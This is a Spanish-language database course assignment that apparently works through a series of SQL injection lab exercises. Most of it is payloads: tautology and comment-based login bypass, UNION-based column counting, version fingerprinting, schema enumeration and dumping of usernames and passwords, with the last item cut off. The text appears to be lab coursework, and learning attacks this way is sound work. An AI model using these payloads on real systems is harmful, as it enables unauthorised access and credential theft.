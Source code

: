 ```sql
```
# Práctico 3 Base De Datos – Jose Ignacio Lavecchia

1- '+ OR 1 = 1 –  
También se podría hacer algo como esto:

SELECT * FROM products WHERE category = '' OR '1' = '1' AND released = 0; 

Suponiendo que released es un booleano en el que 0 es el valor de productos que no han sido liberados y 1 el de productos que ya han sido liberados.

2- Modificamos el parámetro de username con administrator '-- ya que así todo lo que siga en la consulta será ignorado por el -- de los comentarios.

3- La idea es realizar un ataque con el comando UNION, pero antes debemos asegurarnos de que el número de columnas en la consulta original coincide con el número de columnas de nuestra SQL Injection. Para esto, el comando UNION solo va a funcionar si el número y tipo de columnas coinciden.

Para esto, utilizamos un payload como este: 
'+UNION+SELECT+'abc','def'+FROM+dual--

Después procedemos a intentar obtener algún tipo de información de la base de datos, como por ejemplo la versión, para esto utilizamos el siguiente payload:

'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

4- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

# = Comentario

Después utilizamos el siguiente payload para saber la versión de la base de datos:

'+ UNION+SELECT @@version, +NULL#

5- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

Procedemos a utilizar el siguiente payload para que nos devuelva las tablas en la base de datos:

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.columns+WHERE+table_name = 'users_abcdef'—

Después de encontrar las columnas que contienen los usernames y las passwords, utilizamos el siguiente payload para que nos devuelva los usuarios y contraseñas para todos los usuarios:

'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef—

Finalmente encontramos la contraseña para el usuario “administrator” y nos logueamos.

6- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def' +FROM+dual—

Procedemos a utilizar el siguiente payload para obtener la información de la lista de tablas en la base de datos:

'+UNION+SELECT+table_name,NULL+FROM+all_tables—

Después de encontrar la tabla que tiene las credenciales del usuario, procedemos a realizar el siguiente payload para recibir información de las columnas de la tabla:

'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'—

Procedemos a ejecutar el siguiente payload para recibir la información de los usuarios y sus contraseñas:

'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF—

Por último, simplemente encontramos al usuario llamado 'administrator' y su contraseña y nos logueamos.

7- Para determinar el número de columnas devueltas por la query, simplemente ejecutamos el siguiente payload:

'+UNION+SELECT+NULL,NULL—

Continuamos añadiendo NULL, hasta que compile correctamente.

8- Primero determinamos el número de columnas devueltas por la query, una vez que obtenemos la cantidad de consultas correctas, simplemente empezamos a reemplazar cada NULL por un string hasta que compile correctamente, obteniendo así la columna de tipo texto.

'+UNION+SELECT+NULL,NULL,NULL—

'+UNION+SELECT+'seraestalacolumnadetipotexto?',NULL,NULL—

9- Primero determinamos el número de columnas devueltas por la query y cuáles de ellas contienen datos:

'+UNION+SELECT+'abc','def'—

Después ejecutamos el siguiente payload para obtener las credenciales de la tabla de usuarios:

'+UNION+SELECT+username,+password+FROM+users—

Encontramos al usuario llamado 'administrator' y nos logueamos.

10- Primero determinamos el número de columnas devueltas por la query y cuáles de ellas contienen datos:

'+UNION+SELECT+NULL,'abc'—

Después ejecutamos el siguiente payload para obtener las credenciales de la tabla de usuarios en una misma columna, concatenados y separados por el carácter '~'.
